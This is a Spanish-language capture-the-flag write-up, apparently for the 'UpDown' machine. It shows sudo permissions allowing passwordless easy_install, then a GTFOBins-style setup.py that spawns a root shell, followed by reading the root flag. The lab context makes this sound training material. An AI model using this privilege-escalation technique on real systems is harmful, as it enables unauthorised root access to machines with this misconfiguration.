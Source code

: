 
## Escalada de Privilegios
La escalada de privilegios es bastante sencilla, simplemente vi los permisos sudo que podia hacer y encontre esta.
~~~bash
developer@updown:~$ sudo -l
Matching Defaults entries for developer on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User developer may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/local/bin/easy_install
~~~
Esto dice que se puede ejecutar el binario "easy_install" como sudo y sin contraseña, por lo que buscando esto en GTFOBins se la pudo encontrar. 
Asi que solo es cosa de replicarlo y ejecutar.
~~~bash
developer@updown:~$ TF=$(mktemp -d)
developer@updown:~$ echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
developer@updown:~$ sudo /usr/local/bin/easy_install $TF
WARNING: The easy_install command is deprecated and will be removed in a future version.
Processing tmp.UELgaA1Xvk
Writing /tmp/tmp.UELgaA1Xvk/setup.cfg
Running setup.py -q bdist_egg --dist-dir /tmp/tmp.UELgaA1Xvk/egg-dist-tmp-LGdlGw
# id
uid=0(root) gid=0(root) groups=0(root)
~~~
De esa manera se obtuvo acceso como root.

---
## Root Flag

> **Valor de la Flag:** `<Averiguelo usted mismo>`

Con acceso como root a la maquina, ya se puede leer la root flag sin problema.
~~~
# cd /root
# ls  
root.txt  snap
# cat root.txt
<Encuentre su propia root flag>
~~~
🎉 Sistema completamente comprometido - Root obtenido

